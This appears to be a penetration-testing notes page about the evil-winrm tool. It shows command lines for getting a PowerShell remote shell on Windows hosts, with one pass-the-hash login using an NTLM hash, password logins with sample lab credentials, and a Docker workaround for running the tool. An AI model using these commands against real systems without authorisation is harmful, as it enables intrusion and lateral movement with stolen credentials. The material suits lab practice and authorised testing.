 # evil-winrm

* `evil-winrm` is used to take advantage of machines with port 5985 or 5986 open which is Powershell Remoting.
* This will provide shell level access to the machine with the user account that you have compromised. &#x20;
* You can auth either with a hash or password
* Supports SSL

### Usage

* Connect with pass the hash attack

```
evil-winrm -i 10.10.100.15 -u administrator -H "c2597747aa5e43022a3a3049a3c3b09d"
```

* Password Authentication:

```
evil-winrm -i 10.10.100.15 -u a-whitehat -p "bNdKVkjv3RR9ht"
```

### evil-winrm Docker

* I have had issues with `evil-winrm` running properly on non kali Linux distros such as Ubuntu.
* One simple work around is to pull a Kali Docker image and utilize that&#x20;

```
sudo docker run --tty --interactive kalilinux/kali-rolling
evil-winrm -i 172.16.2.5 -u 'DANTE.ADMIN\jbercov' -p mypass123
```
